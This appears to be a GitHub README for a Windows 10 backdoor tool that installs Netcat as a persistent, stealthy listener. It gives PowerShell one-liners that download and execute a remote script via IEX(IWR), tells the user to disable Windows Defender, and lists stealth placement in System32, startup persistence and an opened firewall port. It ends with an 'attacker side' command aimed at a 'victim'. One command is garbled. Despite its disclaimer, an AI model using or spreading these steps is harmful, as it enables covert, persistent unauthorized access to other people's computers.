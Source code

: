 # PermanentRevershell-win10backdoor
 "PermanentRevershell: A potent Windows 10 backdoor providing persistent access and full system control. Explore its capabilities today!"
![image](https://github.com/alariordas/PermanentRevershell-win10backdoor/assets/80034759/82e62466-3dff-4a75-b90d-51602e27e753)

**Disclaimer: Use Responsibly**

This tool is provided for educational and legitimate security testing purposes only. The author (insert your name or username) does not condone or endorse any unauthorized or malicious use of this tool. Any actions and activities carried out using this tool are the sole responsibility of the user.

By downloading, using, or distributing this tool, you acknowledge and agree to use it in compliance with all applicable laws and ethical guidelines. Improper or unlawful use of this tool is strictly prohibited, and the author will not be held responsible for any consequences arising from such actions.

Please exercise caution and always obtain proper authorization before using this tool on systems or networks that you do not own or have explicit permission to test.

Use this tool responsibly and for legitimate purposes only.

**Note:** It is important to be aware of and comply with the laws and regulations governing cybersecurity and ethical hacking activities in your jurisdiction. Unauthorized access or malicious activities may result in legal consequences.





# Netcat Auto-Installer for Windows

This script automates the installation of Netcat on Windows systems. Netcat is a versatile networking utility that can be used for various purposes, including network testing and security assessments. Please use this script responsibly and only on systems and networks for which you have proper authorization.

## Features

- Downloads and extracts the Netcat ZIP file to a temporary location.
- Moves the `nc.exe` binary to the `System32` directory, enhancing its stealth.
- Sets up Netcat to run at system startup for persistent access.
- Enables a firewall rule to allow incoming connections on port 455.
- Removes temporary files after successful installation

## Prerequisites

Before using this script, ensure that you have:

- Windows operating system.
- Administrator privileges.
- Windows Defender desactivated during the execution of the script
- PowerShell enabled for script execution. You can do this by running:

```powershell
Set-ExecutionPolicy Unrestricted -Scope CurrentUser -Force
```
Or Press `Windows + R` and type:
```powershell
powershell -nop -ep bypass -c IEX(IWR Set-ExecutionPolicy Unrestricted -Scope CurrentUser -Force -UseBasicParsing);
````

## Usage

### Automated Installation

1. Press `Windows + R` to open the Run dialog.
2. Type ```powershell.exe  IEX(IWR https://raw.githubusercontent.com/alariordas/PermanentRevershell-win10backdoor/main/ncinstaller.ps1 -UseBasicParsing);``` and press `Ctrl + Enter` to open PowerShell with Administrator privileges.

```powershell
powershell.exe  IEX(IWR https://raw.githubusercontent.com/alariordas/PersistentReverseShell-Win10Backdoor/main/ncinstaller.ps1 -UseBasicParsing);
```

The script will be executed automatically. However, please note that it may not work on all systems. If you encounter issues, you may need to adapt the script to the target system's properties.

### In the Attacker side
Execute this command in the terminal, replace `explample.com` with the victim ip or domain
```cmd
netcat -z -v example.com 455
```
